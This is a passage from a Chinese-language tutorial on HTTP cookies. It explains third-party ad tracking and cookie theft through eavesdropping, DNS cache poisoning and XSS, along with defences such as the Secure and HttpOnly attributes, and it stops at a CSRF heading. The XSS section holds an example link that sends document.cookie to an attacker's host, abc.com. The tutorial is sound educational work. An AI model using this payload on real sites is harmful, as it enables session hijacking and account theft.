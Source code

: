 记录用户的浏览记录，分配一个 user 来表示用户的身份。

图（b）：用户访问服务器 2 的一个 index.html 页面，这个页面也和同一家广告商合作，这个页面也包含一张 www.advertisement.com 域名下的一张广告图 ad2.jpg，当请求这张 ad2.jpg 图片的时候，浏览器就会向 www.advertisement.com 发送 cookie

```
Cookie:  user="wang"; like="a";
```

www.advertisement.com 收到浏览器发送的 cookie 识别了用户的身份，同时又把这个页面用户的浏览数据设置 cookie

```
Set-Cookie: buy="b"; domain="advertisement.com"
```

图（c）：很巧，用户访问服务器 3 的一个 index.html 页面，这个页面也和那一家广告商合作，这个页面也包含一张 www.advertisement.com 域名下的一张广告图 ad3.jpg，当请求这张 ad3.jpg 图片的时候，浏览器就会向 www.advertisement.com 发送 cookie

```
Cookie:  user="wang"; like="a"; buy="b"
```

这样广告公司就可以根据用户的浏览习惯，给用户推送合适的广告。

### 安全

多数网站使用 cookie 作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用 cookies 作为会话标识符，攻击者可以通过窃取一套用户的 cookies 来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。 下面介绍几种 cookie 盗用和会话劫持的例子：

#### 网络窃听

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式 WIFI。这种流量包含在普通的未加密的 HTTP 清求上发送 Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含 HTTP Cookie 的全部内容，以便进行中间的攻击。比如：拦截 cookie 来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置 secure 属性的 cookie，这样就只能通过 https 的方式来发送 cookies 了。

#### DNS 缓存中毒

如果攻击者可以使[DNS 缓存中毒](http://https//en.wikipedia.org/wiki/DNS_spoofing/)，那么攻击者就可以访问用户的 Cookie 了，例如：攻击者使用 DNS 中毒来创建一个虚拟的 NDS 服务 h123456.[www.demo.com 指向攻击者服务器的 ip 地址。然后攻击者可以从服务器](http://www.demo.xn--comip-6f6hw2bc3fdvhh7bbfw06ls8fp4g168de15a.xn--0mqyb70mbta95cjf75njq1b7od7q7ath1b/) h123456.[www.demo.com/img_01.png](http://www.demo.com/img_01.png) 发布图片。用户访问这个图片，由于 www.demo.com 和 h123456.www.demo.com 是同一个子域，所以浏览器会把用户的与 www.demo.com 相关的 cookie 都会发送到 h123456.www.demo.com 这个服务器上，这样攻击者就会拿到用户的 cookie 搞事情。

一般情况下是不会发生这种情况，通常是网络供应商错误。

#### 跨站点脚本 XSS

使用跨站点脚本技术可以窃取 cookie。当网站允许使用 javascript 操作 cookie 的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的 cookie 信息。

例子：

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行 onclick 里面的代码，结果这个网站用户的 cookie 信息就会被发送到 abc.com 攻击者的服务器。攻击者同样可以拿 cookie 搞事情。

解决办法：可以通过 cookie 的 HttpOnly 属性，设置了 HttpOnly 属性，javascript 代码将不能操作 cookie。

#### 跨站请求伪造 CSRF
